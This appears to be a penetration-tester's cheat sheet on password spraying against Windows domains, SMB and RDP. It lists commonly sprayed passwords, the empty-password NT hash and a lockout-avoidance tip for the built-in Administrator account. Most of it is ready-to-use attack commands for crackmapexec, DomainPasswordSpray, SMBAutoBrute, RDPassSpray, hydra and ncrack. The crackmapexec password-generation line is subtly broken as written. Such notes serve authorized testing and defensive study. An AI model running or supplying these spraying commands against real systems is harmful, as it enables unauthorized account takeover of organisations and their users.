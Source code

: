 # Password Spray Attack

### Password spray attacks use one password against multiple users, usually gathered in a users wordlist.

### They are also preferred from brute-force attacks due to prevention of account lockouts.

## TIP: The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates.

#### Tools: hydra, RDPassSpray.py, MailSniper, SprayingToolkit, Metasploit (auxiliary/scanner/smb/smb_login) example

### Most of the time the best passwords to spray are :

 - P@ssw0rd01 , Password123 , Password1 , Hello123 , mimikatz

 - Welcome1 / Welcome01

 - $Companyname1 : $Microsoft1

 - SeasonYear : Winter2019* , Spring2020! , Summer2018? , Summer2020 , July2020!

 - Default AD password with simple mutations such as number-1, special character iteration (*,?,!,#)

 - Empty Password (Hash:31d6cfe0d16ae931b73c59d7e0c089c0)

## Spray a pre-generated passwords list

#### 1) Using crackmapexec and mp64 to generate passwords and spray them against SMB services on the network.

 - crackmapexec smb 10.0.0.1/24 -u Administrator -p '(./mp64.bin Pass@wor?l?a)'

#### 2) Using DomainPasswordSpray to spray a password against all users of a domain https://github.com/dafthack/DomainPasswordSpray

 - Invoke-DomainPasswordSpray -Password Summer2021! (Automatically creates a userlist from the users in the domain and sprays the password)

 - Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt

#### 3) SMBAutoBrute https://github.com/Shellntel/scripts/blob/master/Invoke-SMBAutoBrute.ps1

 - Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1"

## Spray passwords against the RDP service

#### 1) Using RDPassSpray to target RDP services https://github.com/xFreed0m/RDPassSpray

 - python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]

#### 2) Hydra

 - hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://IP_ADDRESS

#### 3) ncrack

 - ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://IP_ADDRESS

## BadPwdCount Attribute

### The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.

 - crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users

